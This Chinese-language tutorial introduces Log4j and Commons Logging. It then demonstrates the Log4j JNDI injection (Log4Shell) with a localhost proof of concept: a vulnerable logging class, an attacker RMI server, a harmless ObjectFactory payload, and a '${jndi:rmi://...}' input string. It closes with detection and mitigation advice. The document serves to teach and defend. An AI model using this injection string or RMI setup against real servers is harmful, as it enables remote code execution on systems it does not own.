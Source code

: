 https://www.liaoxuefeng.com/wiki/1252599548343744/1264739436350112

# 概述

Log4j是Apache的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX Syslog守护进程等；我们也可以控制每一条日志的输出格式；通过定义每一条日志信息的级别，我们能够更加细致地控制日志的生成过程。最令人感兴趣的就是，这些可以通过一个配置文件来灵活地进行配置，而不需要修改应用的代码。



**Logger（记录器）**：有七个级别，只输出级别不低于设定级别的日志信息

**Appender（输出端）**：把日志输出到不同的地方

**Layout（布局）**：格式化 Log 信息的输出



添加依赖包

【slf4j-api】：为 java 提供简单日志接口

【slf4j-log4j12】：连接 slf4j-api 和  log4j 的适配器

【log4j】：具体化的日志系统，通过 slf4j-log4j12 初始化 log4j，达到最终日志的输出

```xml
<slf4j.version>1.7.25</slf4j.version>
<log4j.version>1.2.17</log4j.version>
<!-- log4j2 start -->
<dependency>
    <groupId>log4j</groupId>
    <artifactId>log4j</artifactId>
    <version>${log4j.version}</version>
</dependency>
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-api</artifactId>
    <version>${slf4j.version}</version>
</dependency>
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-log4j12</artifactId>
    <version>${slf4j.version}</version>
</dependency>
<!-- log4j2 end -->
```








# Commons Logging

和Java标准库提供的日志不同，Commons Logging是一个第三方日志库，它是由Apache创建的日志模块。

Commons Logging的特色是，它可以挂接不同的日志系统，并通过配置文件指定挂接的日志系统。默认情况下，Commons Loggin自动搜索并使用Log4j（Log4j是另一个流行的日志系统），如果没有找到Log4j，再使用JDK Logging。



第一步，通过`LogFactory`获取`Log`类的实例； 第二步，使用`Log`实例的方法打日志。

```java
import org.apache.commons.logging.Log;
import org.apache.commons.logging.LogFactory;

Log log = LogFactory.getLog(getClass());
log.info("start...");
log.warn("end.");
```





Commons Logging定义了6个日志级别：

- FATAL
- ERROR
- WARNING
- INFO
- DEBUG
- TRACE

默认级别是`INFO`。





# JNDI注入漏洞

> 没有jndi之前，对于一个外部依赖，像mysql数据库，程序开发的过程中需要将具体的数据库地址参数写入到java代码中，程序才能找到具体的数据库地址进行链接。那么数据库配置这些信息可能经常变动的。这就需要开发经常手动去调整配置。
> 有了jndi后，程序员可以不去管数据库相关的配置信息，这些配置都交给J2EE容器来配置和管理，程序员只要对这些配置和管理进行引用即可。其实就是给资源起个名字，再根据名字来找资源。
> 当一个需要被获取的对象的名称可以被远程控制的时候，黑客可以将被攻击的java客户端的jndi请求指向恶意的服务地址，恶意的资源服务地址响应了恶意的java对象，这个对象是“javax.naming.Reference" 的示例，JNDI客户端客户端会尝试解析该对象的classFactory和classFactoryLocation属性。如果这classFactory属性是未知的，那么java会使用URLClassLoade从classFactoryLocation处获取字节码。
> 就是这么简单的机制，‘initialContext.lookup‘方法即使没有直接暴露在污点数据中，我们可以利用它进行漏洞利用。
>

也就是说JNDI可以访问远端的服务器，所以攻击者让被攻击者的电脑或者服务器来访问远端的服务器，达到控制被攻击者的电脑和服务器的目的（比如控制你的服务器资源去挖矿，获取你数据库里面重要信息等等）

Login.java(代表受害者的服务器）

```JAVA
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class Login {
    private static Logger logger= LogManager.getLogger(Login.class);
    //一个简单的登录方法，传入用户名字
    public void register(String username){
    	//日志在控制台打印
        logger.info("{},在何时登录",username);
    }
}
```

Remote.java(代表攻击者部署）

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class Remote{
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        //启动一个jndi服务器
        Reference reference = new Reference("com.itheima.remote.Attack", "com.itheima.remote.Attack", "http://127.0.0.1:8081/");
        //创建一个资源
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(reference);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/remote'");
        //给资源命名，绑定
        registry.bind("remote", refObjWrapper);
    }
}
```

Attack.java(这里是攻击者要攻击的具体内容的实现）

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class Attack implements ObjectFactory {
    static {
        System.out.println("静态代码块攻击");
    }
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("你被攻击了");
        return "【攻击者】";
    }
}
```

我们通过静态代码块，强制执行里面的内容。

我们先运行Remote.java,这个文件，在控制台获取一个和资源名绑定的一个路径，如下
![在这里插入图片描述](http://mdimg.sofice.top/202112221544857.png)

testJndi.java（启动一下受害者的服务器，并且进行jndi注入攻击）

```java
import com.itheima.local.Login;
import org.junit.Test;

public class testJndi {
    @Test
    public void test1(){
    	String uri="${jndi:rmi://127.0.0.1:1099/remote}";
        Login login=new Login();
        //故意把错误用户名给他
        login.register(uri);
    }
}
```

于是我们就发现控制台竟然执行了攻击者的代码，输出了静态代码块的功能

![在这里插入图片描述](http://mdimg.sofice.top/202112221544762.png)

而且在这里，前端界面和后端都会判定填写的用户名字正确，因为用户名字的确是一串字符串，系统并不会阻拦。

但是这个条数据不仅仅和后端数据库进行交互而且还和log4j这个日志信息模块进行交互，log4在自己的服务器里面执行了远程服务器里面的代码。这里面有非常大的信息网络安全隐患，你的服务器再也不是属于你自己的了，任何一个懂得jndi注入技术的人都能控制你的电脑或者服务器

## 解决方案

更换项目依赖版本>=2.15.0

资源文件路径会安全转行为字符串形式

**日志/流量排查**

- 排查日志或者解码后完整的请求数据包中是否存在${jndi:关键字。
  
- 排查日志是否存在相关堆栈报错，堆栈里是否有JndiLookup、ldapURLContext、getObjectFactoryFromReference等与 jndi 调用相关的堆栈信息。

**临时修补建议**

- 设置JVM启动参数-Dlog4j2.formatMsgNoLookups=true。
  
- 尽量使用JDK 版本大于11.0.1、8u191、7u201、6u211，需要注意的是，即使是使用了 JDK 高版本也不能完全保证安全，依然存在本地绕过的情况。
  
- 限制不必要的业务访问外网。
  
- 采用 rasp 对lookup的调用进行阻断。
  
- 采用 waf 对请求流量中的${jndi进行拦截。
